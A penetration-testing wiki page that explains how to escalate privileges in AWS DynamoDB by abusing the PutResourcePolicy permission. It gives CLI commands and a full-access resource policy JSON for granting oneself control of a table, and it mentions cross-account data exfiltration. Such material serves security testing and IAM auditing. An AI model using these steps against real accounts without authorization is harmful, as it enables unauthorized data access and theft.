 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

For more info about dynamodb check:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

Since March 2024, AWS offers *resource based policies* for DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

So, if you have the `dynamodb:PutResourcePolicy` for a table, you can just grant yourself or any other principal full access to the table.

Granting the `dynamodb:PutResourcePolicy` to a random principal often happens by accident, if the admins think that granting `dynamodb:Put*` would only allow the principal to put items into the database - or if they granted that permissionset before March 2024...

Ideally, you also have `dynamodb:GetResourcePolicy`, so you do not overwrite other potentially vital permissions, but only inject the added permissions you need:

```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
	--resource-arn <table_arn> \
	--query 'Policy' \
	--output text > policy.json
```

If you cannot retrieve the current policy, just use this one that grants full access over the table to your principal:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "FullAccessToDynamoDBTable",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
            },
            "Action": [
                "dynamodb:*"
            ],
            "Resource": [
                "arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
            ]
        }
    ]
}
```

If you need to customize it, here is a list of all possible DynamoDB actions: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). And here is a list of all actions that can be allowed via a resource based policy *AND which of these can be used cross-account (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Now, with the policy document `policy.json` ready, put the resource policy:

```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
	--resource-arn <table_arn> \
	--policy "$(cat policy.json)"
```

Now, you should have the permissions you needed.

### Post Exploitation

As far as I know there is **no other direct way to escalate privileges in AWS just by having some AWS `dynamodb` permissions**. You can **read sensitive** information from the tables (which could contain AWS credentials) and **write information on the tables** (which could trigger other vulnerabilities, like lambda code injections...) but all these options are already considered in the **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Read data abusing data Streams

{{#include ../../../../banners/hacktricks-training.md}}



